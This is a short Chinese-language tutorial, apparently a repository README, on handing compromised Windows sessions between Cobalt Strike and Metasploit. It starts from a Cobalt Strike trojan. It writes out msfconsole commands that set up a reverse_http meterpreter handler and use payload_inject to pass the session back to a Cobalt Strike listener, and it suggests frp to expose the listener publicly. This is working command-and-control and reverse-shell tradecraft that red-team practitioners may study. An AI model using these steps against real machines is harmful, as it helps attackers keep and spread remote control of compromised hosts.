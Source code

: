 如果是kali的msf要联动服务器上的CS的话，可以通过frp将msf映射到公网上

# CS ——> MSF

生成一个CS木马，然后先上线一台windows

![image-20231119121224915](images/1.png)

打开MSF，启动一个监听，用来监听CS派生过来的回话

```python3
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.50.128   (本机ip)
set lport 5555
exploit
```

<img src="images/6.png" alt="image-20231119121339182" style="zoom:50%;" />

CS创建新的监听器，地址为MSF地址，端口为MSF监听端口

<img src="images/7.png" alt="image-20231119121541581" style="zoom:50%;" />

然后在cs控制台输入spawn msftest

<img src="images/8.png" alt="image-20231119121657814"  />

也可以直接在已上线的主机点击右键点击spawn来选择监听器

![image-20231119122457493](images/2.png)

在msf中收到了会话，得到了meterpreter

<img src="images/9.png" alt="image-20231119121650247" style="zoom:50%;" />

# MSF ——> CS

接下来来尝试将刚才得到的meterpreter再派生到Cobalt Strike上

![image-20231119121919872](images/3.png)

在CS上创建监听

![image-20231119122035059](images/4.png)

这次使用10011这个监听

使用模块exploit/windows/local/payload_inject

```text
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.50.128     # 创建cs监听的地址
set lport 10011              # cs监听端口
set session 1
exploit
```

<img src="images/10.png" alt="image-20231119122227668" style="zoom:50%;" />

在CS上收到了会话

![image-20231119122301273](images/5.png)





https://zhuanlan.zhihu.com/p/381754822